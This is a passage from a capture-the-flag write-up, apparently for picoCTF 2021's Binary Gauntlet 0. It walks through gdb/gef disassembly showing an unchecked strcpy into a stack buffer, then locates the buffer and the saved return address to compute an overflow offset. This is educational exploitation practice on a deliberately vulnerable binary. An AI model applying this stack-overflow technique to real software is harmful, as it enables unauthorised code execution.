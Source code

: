 ```asm
   0x00000000004009f9 <+236>:	mov    rdx,QWORD PTR [rip+0x2006b0]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
   0x0000000000400a00 <+243>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400a04 <+247>:	mov    esi,0x3e8
   0x0000000000400a09 <+252>:	mov    rdi,rax
   0x0000000000400a0c <+255>:	call   0x400760 <fgets@plt>
   0x0000000000400a11 <+260>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400a15 <+264>:	add    rax,0x3e7
   0x0000000000400a1b <+270>:	mov    BYTE PTR [rax],0x0
   0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
   0x0000000000400a26 <+281>:	mov    rsi,rdx
   0x0000000000400a29 <+284>:	mov    rdi,rax
   0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
   0x0000000000400a31 <+292>:	mov    eax,0x0
   0x0000000000400a36 <+297>:	leave  
   0x0000000000400a37 <+298>:	ret    
End of assembler dump.
gef➤  
```

We can see the line after ```strcpy``` command: ```0x0000000000400a31 <+292>:	mov    eax,0x0``` Let's put breakepoint at this line:
```asm
gef➤  b *main+292
Breakpoint 1 at 0x400a31
```

Now, Let's try to run the binary with input ```BBBBBBBB``` (The second input) and then search this pattern to get the offset:
```asm
gef➤  r//pico2021/BinaryGauntlet0/gauntlet 
AAAAAAAA
AAAAAAAA
BBBBBBBB
Breakpoint 1, 0x0000000000400a31 in main ()
gef➤  search-pattern BBBBBBBB
[+] Searching 'BBBBBBBB' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rwx
  0x602260 - 0x60226a  →   "BBBBBBBB\n" 
  0x603890 - 0x60389a  →   "BBBBBBBB\n" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffdec0 - 0x7fffffffdeca  →   "BBBBBBBB\n" 
```

So we can see the buffer started from ```0x7fffffffdec0```, Let's find the address of ```RIP```:
```asm
gef➤  info frame
Stack level 0, frame at 0x7fffffffdf50:
 rip = 0x400a31 in main; saved rip = 0x7ffff7a03bf7
 Arglist at 0x7fffffffdf40, args: 
 Locals at 0x7fffffffdf40, Previous frame's sp is 0x7fffffffdf50
 Saved registers:
  rbp at 0x7fffffffdf40, rip at 0x7fffffffdf48
```
